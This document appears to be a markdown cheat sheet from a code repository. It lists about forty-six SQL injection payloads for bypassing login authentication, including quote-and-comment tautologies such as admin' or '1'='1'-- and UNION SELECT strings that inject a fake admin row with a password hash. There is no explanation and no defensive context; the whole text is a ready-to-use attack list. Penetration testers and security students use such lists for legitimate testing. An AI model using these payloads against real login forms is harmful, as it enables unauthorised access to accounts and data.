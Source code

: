# SQL Injection Authentication-Bypass (Cheat Sheet)

``` or 1=1 ```
``` or 1=1-- ``` 
``` or 1=1# ```
``` or 1=1/* ```
``` admin' -- ``` 
``` admin' # ``` 
``` admin'/* ``` 
``` admin' or '1'='1 ``` 
``` admin' or '1'='1'-- ``` 
``` admin' or '1'='1'# ``` 
``` admin' or '1'='1'/* ``` 
``` admin'or 1=1 or ''=' ```
``` admin' or 1=1 ```
``` admin' or 1=1-- ```
``` admin' or 1=1# ```
``` admin' or 1=1/* ```
``` admin') or ('1'='1 ```
``` admin') or ('1'='1'-- ```
``` admin') or ('1'='1'# ```
``` admin') or ('1'='1'/* ```
``` admin') or '1'='1 ```
``` admin') or '1'='1'-- ```
``` admin') or '1'='1'# ```
``` admin') or '1'='1'/* ```
``` 1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055 ```
``` admin" -- ```
``` admin" # ```
``` admin"/* ```
``` admin" or "1"="1 ```
``` admin" or "1"="1"-- ```
``` admin" or "1"="1"# ```
``` admin" or "1"="1"/* ```
``` admin"or 1=1 or ""=" ```
``` admin" or 1=1 ```
``` admin" or 1=1-- ```
``` admin" or 1=1# ```
``` admin" or 1=1/* ```
``` admin") or ("1"="1 ```
``` admin") or ("1"="1"-- ```
``` admin") or ("1"="1"# ```
``` admin") or ("1"="1"/* ```
``` admin") or "1"="1 ```
``` admin") or "1"="1"-- ```
``` admin") or "1"="1"# ```
``` admin") or "1"="1"/* ```
``` 1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055 ```
